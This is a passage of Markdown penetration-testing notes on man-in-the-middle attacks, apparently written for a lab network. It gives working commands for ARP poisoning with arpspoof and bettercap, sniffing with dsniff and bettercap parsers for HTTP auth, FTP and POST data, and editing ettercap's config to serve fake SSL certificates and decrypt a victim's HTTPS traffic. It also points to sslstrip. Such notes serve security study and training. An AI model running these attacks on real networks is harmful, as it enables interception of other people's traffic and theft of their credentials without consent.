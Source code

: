 > this command is a ARP reply to the victim 172.16.5.15 and is telling that the MAc address of the host 172.16.5.1 (gateway) is our MAC address,
we can go the target machine and check the arp table // arp -a
now we send the same command but with the addresses reversed, because we need to send to the gateway, that the address from the target machine is our MAC.

```
sudo arpspoof -i tap0 -t <gateway ip> <target ip>
sudo arpspoof -i tap0 -t 172.16.5.1 -r 172.16.5.15
```

- now the attack is complete, we can sniff the network with wireshark or tcpdump

```
 dsniff -i tap0
```

> make sure ip forwarding is active on the attacking machine:
	echo 1 > /proc/sys/net/ipv4/ip_forward


### Bettercap
http://www.bettercap.org/

Find the targets:
```
bettercap -I tap0 --no-spoofing
```

Set the target and gateway:
```
bettercap -I tap0 -G 172.165.5.1 -T 172.16.5.15 -X -P "HTTPAUTH,URL,FTP,POST"
-G = gateway // -T = target ip // -X = sniffer // -P = parser, we can use "*" if we wanna enable all parsers
```






## Intercepting SSL traffic

- What we need to do is to instruct Ettercap to create and use a fake SSL certificate that will be sent to the victim machine every time it tries to establish HTTPS connections.
If the victim user accepts the certificate, Ettercap will be then able to decrypt the traffic.

Edit this file: /etc/ettercap/etter.conf
```
[privs]
ec_uid = 0
ec_gid = 0
```

> uncomment the following lines > redir_command_on/off

> Now we are able to intercept and read some of the HTTPS traffic too.


### Sslstrip
- https://github.com/moxie0/sslstrip
